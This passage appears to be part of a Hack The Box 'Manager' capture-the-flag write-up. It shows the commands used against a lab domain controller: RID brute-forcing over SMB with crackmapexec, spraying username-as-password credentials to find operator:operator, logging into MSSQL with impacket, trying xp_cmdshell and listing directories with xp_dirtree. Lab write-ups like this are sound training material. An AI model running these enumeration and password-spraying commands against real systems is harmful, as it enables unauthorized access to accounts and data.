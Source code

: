 ```
crackmapexec smb manager.htb -u guest -p '' --rid-brute
```

![RID-Brute-forcing](/images/HTB-Manager/rid-bruteforcing.png)

I only want the lines with the usernames so I copy them into a file (start from user `Zhong`).

![Users-from-RID-brute-forcing](/images/HTB-Manager/smb-list.png)

I extract the usernames from it and I send the output to another file.

```
awk -F': ' '{split($NF, a, "\\"); split(a[2], b, " "); print tolower(b[1])}' smb-output.txt > smb-users.txt
```

![Domain-users-list](/images/HTB-Manager/smb-users.png)

Now I test if some users have their passwords as their username.

```
crackmapexec smb manager.htb -u $(cat ~/Machines/HTB/Manager/smb-users.txt) -p $(cat ~/Machines/HTB/Manager/smb-users.txt) --continue-on-success
```

The pair `operator:operator` is successful!

![SMB-login-credentials](/images/HTB-Manager/smb-login.png)

There are no shares accessible with this user so I turned my attention to the MSSQL database.

```
crackmapexec mssql manager.htb -u operator -p operator
```

Turns out I can access the database with those same smb credentials.

![MSSQL-login-credentials](/images/HTB-Manager/MSSQL-login.png)

```
impacket-mssqlclient operator:operator@dc01.manager.htb -windows-auth
```
![MSSQL-database-accessed](/images/HTB-Manager/MSSQL-ACCESS.png)

I try enabling `xp_cmdshell` but it fails.

> `xp_cmdshell` is a system stored procedure in Microsoft SQL Server that allows users to execute operating system commands directly from within SQL Server. It is a powerful feature that provides a way to interact with the underlying operating system from within the SQL Server environment.

![xp-cmdshell-failure](/images/HTB-Manager/xp-cmdshell.png)

I list the directories with `xp_dirtree`, Microsoft IIS web root is found at `C:\inetpub\wwwroot`.

```
xp_dirtree C:\inetpub\wwwroot
```
![MSSQL-database-accessed](/images/HTB-Manager/xp_dirtree.png)
